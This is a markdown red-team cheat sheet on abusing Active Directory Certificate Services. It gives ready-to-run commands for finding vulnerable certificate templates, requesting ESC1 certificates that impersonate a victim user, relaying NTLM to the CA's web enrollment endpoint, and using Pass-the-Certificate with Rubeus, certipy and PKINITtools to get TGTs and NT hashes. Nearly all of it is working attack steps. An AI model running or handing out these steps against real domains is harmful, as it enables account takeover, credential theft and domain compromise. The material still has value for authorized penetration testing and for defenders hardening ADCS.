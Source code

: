 # AD Certificate Services (PKI Abuse)
(copied from https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)

Some golden links when you are having issues:
https://social.technet.microsoft.com/Forums/windows/en-US/96016a13-9062-4842-b534-203d2f400cae/ca-certificate-request-error-quotdenied-by-policy-module-0x80094800quot-windows-server-2008?forum=winserversecurity


## Enumerating ADCS On Linux
### Using certipy
Example using Kerberos via proxychains...   
First calculate NT hash for the users PW using Python:
```python
import hashlib,binascii
hash = hashlib.new('md4', "SecureP4ssword".encode('utf-16le')).digest()
print(binascii.hexlify(hash))
```
Then get the Kerberos ticket using this hash: (Include the colon before the hash!)   
`proxychains getTGT.py domain.local/username -dc-ip 10.0.10.1 -hashes :<HASHFROMPREVIOUSSTEP>`   
Add the generated ccache file to the environment variable:   
`export KRB5CCNAME=/home/kali/username.ccache`   
Now run certipy using Kerberos Auth:   
`proxychains certipy find -u username@domain.local -target dc01.domain.local -vulnerable -k -ns <dnsserverip> -dns-tcp -timeout 10 -enabled -debug`   

### Using Certi
Download and install Certi
```shell
git clone https://github.com/eloypgz/certi
cd certi
sudo python3 setup.py install
```

Certi only support kerberos auth, so to perform authenticated enumeration, you need to fetch a TGT for a valid user first.
```shell
getTGT.py '<domain>/<username>:<password>' -dc-ip <dc-ip>
```
Set the env var to the output ccache

```shell
export KRB5CCNAME=/full/path/to/<username>.ccache
```

Enumerate Certificate Authorities on the domain (CA's)
```shell
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --class ca
```

Enumerate vuln templates
```shell
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --vuln --enable
```

## Requesting certs from CA Linux
 Requesting a cert with an alt subject name (ESC1)
 ```shell
python3 certi.py req '<domain>/<username>@<ca-server>' <ca-service-name> -k -n --dc-ip <dc-ip> --template <vuln-template> --alt-name <target-domain-account>
```
## Authenticating using cert on Linux

Request an TGT from Certificate with Client Auth or Smart Card Auth
```shell
python3 gettgtpkinit.py <domain>/<username> -cert-pfx <pfx-certificate-file> -pfx-pass <certificate-password> admin_tgt.ccache   
 ```

Get NTHash from requestd TGT above (KEY is outputed from the command above) 
```shell
python3 getnthash.py -key <AS-REP-encryption-key> -dc-ip <dc-ip> <domain>/<username> output_tgt.ccache
```
Note: You have to change the KRB5CCNAME variable to the target users tgt ccache file first (admin_tgt.ccache above):
```shell
export KRB5CCNAME=/full/path/to/admin_tgt.ccache
```

## ESC 1 POC using Certipy
The following example uses the tool certipy to request a certificate of a victim user using the ESC1 vulnerable template. In this case the nameserver and dns-tcp are specified, due to proxifying the DNS queries over SOCKS proxy:   
`proxychains certipy req -u user1@domain.local -target ca-server.domain.local -k -ca 'Demo Issuing CA' -template SomeBrokenTemplate -upn victimuser@domain.local -ns 10.0.1.2 -dns-tcp -timeout 10 -debug`   

Once you have the pfx file for the user, authenticate to get the Kerberos ticket (ccache file) and NT hash of the victim user:   
`proxychains certipy auth -pfx victimuser.pfx -dc-ip 10.0.0.1`   

**Some Notes**   
 - The target of the certipy req command must be the CA, not the DC!
 - The CA name has to be the exact same as in the output of e.g. certipy find command. If it contains spaces, use quotes. 
   Example: `certipy req -u user1@domain.local -target ca-server.domain.local -k -ca 'Demo Issuing CA' -template SomeBrokenTemplate -upn victimuser@domain.local -ns 10.0.1.2 -dns-tcp -timeout 10 -debug`
 - If the certipy auth using pfx returns the error `[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)`, this means the target DC does not have Smart Card Auth enabled or is missing the relevant certificate. In this case try to e.g. use LDAPS. You can verify the validity of the pfx file for example using Lee Christensens "Get-LdapCurrentUser"(https://github.com/leechristensen/Random/blob/master/PowerShellScripts/Get-LdapCurrentUser.ps1) PowerShell function:
   `Get-LdapCurrentUser -Server 10.0.0.1:636 -Certificate C:\users\bob\desktop\victimuser.pfx -UseSSL [-AuthType Kerberos]`

## Relaying On Linux

Relaying incoming SMB/HTTP connection to ADCS to generate a certificate on

Fetch and install a custom fork of impacket
```shell
git clone https://github.com/ExAndroidDev/impacket.git
cd impacket
git checkout ntlmrelayx-adcs-attack
```

Create a virtual python env to contain this version of impacket (Avoid breaking the release you already have installed)
```shell
apt install python3-venv
python3 -m venv adcs-impacket
```

Move "into" this virutal env 
```shell
source adcs-impacket/bin/activate
```
Still inside the impacket folder

```shell
pip3 install .
```

You can now setup ntlmrelay for realying 
```shell
python3 examples/ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs --template <template-name>
```

## Authentication using certificate on Linux
```shell
python3 gettgtpkinit.py <domain>/<username> -pfx-base64 $(cat <base64-cert.file>) -dc-ip <dc-ip> out_tgt.ccache
```

# Pass-The-Certificate
From: https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate    
A Kerberos service ticket, can only be obtained by presenting a TGT. This TGT can be obtained by
a) ASREPRoast (if Kerberos pre-auth is disabled)
b) symmetrical pre-authentication (using a DES,RC4,AES128 or AES256 key)
c) asymmetrical pre-authentication (using certificates) --> This is also called PKINIT

Pass-The-Certificate is the fancy given name of this certificate based pre-authentication.   

NOTE: Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. 

## Windows
`Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show`   

NOTE: PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.   
`openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"`   

## Unix 
```
# PFX certificate (file) + password (string, optionnal)
gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# Base64-encoded PFX certificate (string) (password can be set)
gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

# PEM certificate (file) + PEM private key (file)
gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```
Alternatively, certipy (python) can be used:   
`certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'`   
Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file:   
`certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"`   

The ticket obtained can then be used to:   
1. authenticate with [pass-the-cache](https://www.thehacker.recipes/ad/movement/kerberos/ptc)   
2. conduct an [UnPAC-the-hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash) attack. This can be done with getnthash.py from PKINITtools.   
3. obtain access to the account's SPN with an S4U2Self. This can be done with [gets4uticket.py](https://github.com/dirkjanm/PKINITtools/blob/master/gets4uticket.py) from PKINITtools.   

NOTE: When using Certipy for Pass-the-Certificate, it automatically does UnPAC-the-hash to recover the account's NT hash, in addition to saving the TGT obtained.   

